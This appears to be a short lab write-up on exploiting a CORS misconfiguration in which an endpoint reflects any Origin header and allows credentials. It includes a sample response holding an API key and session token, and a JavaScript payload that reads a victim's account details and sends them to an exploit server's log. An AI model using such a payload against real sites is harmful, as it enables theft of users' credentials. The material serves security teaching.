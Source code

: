 # CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

When an Origin header with any value is added to requests to `/accountDetails`, the application echoes it in the `Access-Control-Allow-Origin` response header.

```http
GET /accountDetails HTTP/1.1

Origin: https://random-website.com
```

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://random-website.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jFjdQBJldim1j7cv1Zm8C0BiImuskK5U",
  "sessions": [
    "2K43vdr9uBieBO6hKPxign5cBBk0RkHv"
  ]
}
```

The following payload, delievered to the user, can be used to log their api key in the lab's exploit server:

```javascript
var xhr = new XMLHttpRequest()
var url = 'https://acb81fbb1f7d870ec0f52ab300bf0064.web-security-academy.net'

xhr.onreadystatechange = function () {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    fetch('/log?key=' + xhr.responseText)
  }
}

xhr.open('GET', url + '/accountDetails', true)
xhr.withCredentials = true

xhr.send(null)
```

